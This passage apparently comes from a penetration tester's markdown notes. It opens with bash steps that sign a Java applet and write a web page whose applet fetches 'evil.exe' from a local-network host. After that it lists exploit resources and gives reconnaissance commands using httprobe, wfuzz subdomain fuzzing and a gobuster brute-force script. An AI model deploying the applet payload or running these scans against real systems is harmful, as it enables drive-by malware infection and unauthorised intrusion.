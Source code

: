 ```bash
javac Java.java
echo “Permissions: all-­‐permissions” > /root/manifest.txt
    jar cvf Java.jar Java.class
    added manifest
    adding: Java.class(in = 1233) (out= 709)(deflated 42%)

keytool -­‐genkey -­‐alias signapplet -­‐keystore mykeystore -­‐keypass mykeypass -­‐storepass password123

jarsigner -­‐keystore mykeystore -­‐storepass password123 -­‐keypass mykeypass -­‐signedjar SignedJava.jar Java.jar signapplet

echo '<applet width="1" height="1" id="Java Secure" code="Java.class" archive="SignedJava.jar"><param name="1" value="http://192.168.10.5:80/evil.exe"></applet>' > /var/www/java.html
```

#### Other 

- Browser extensions:
  - LinkedIn browser plugin enumeration: https://github.com/dandrews/nefarious-linkedin
  - Browser, VMEscape and Kernel Exploitation (Chrome/Safari): https://github.com/vngkv123/aSiagaming

### Other 

- Practical HTTP Host header attacks: <https://www.skeletonscribe.net/2013/05/practical-http-host-header-attacks.html>
- Multiple Ways to Exploiting PUT Method - <https://www.hackingarticles.in/multiple-ways-to-exploiting-put-method/>

## Scenarios 

## Techniques 

### Discovery and Enumeration

- httprobe - Take a list of domains and probe for working HTTP and HTTPS servers <https://github.com/tomnomnom/httprobe>
    ```
    cat domains.txt | httprobe | tee alive.txt
    cat domains.txt | httprobe -p http:8080 -p https:4443 | tee alive.txt
    ```
- VHost
  - VHostScan: <https://github.com/codingo/VHostScan>
- Subdomains 
    ```bash
    wfuzz -u https://(TARGET DOMAIN NAME) -w /infosec/wordlists/SecLists/Discovery/DNS/subdomains-list-5000.txt -H "Host: FUZZ.(TARGET DOMAIN NAME)"
    ```
- Files and Folders
  - Gobuster: <https://github.com/OJ/gobuster>
    ```
    #!/bin/bash
    set -eu
    URL=$1
    echo "super go bustering for super brute: $URL"
    gobuster -u $URL -l -s 200,204,301,302,307,403 -w /root/tools/SecLists/Discovery/Web_Content/tomcat.txt
    gobuster -u $URL -l -s 200,204,301,302,307,403 -w /root/tools/SecLists/Discovery/Web_Content/nginx.txt
    gobuster -u $URL -l -s 200,204,301,302,307,403 -w /root/tools/SecLists/Discovery/Web_Content/apache.txt
    gobuster -u $URL -l -s 200,204,301,302,307,403 -w /root/tools/SecLists/Discovery/Web_Content/Top1000-RobotsDisallowed.txt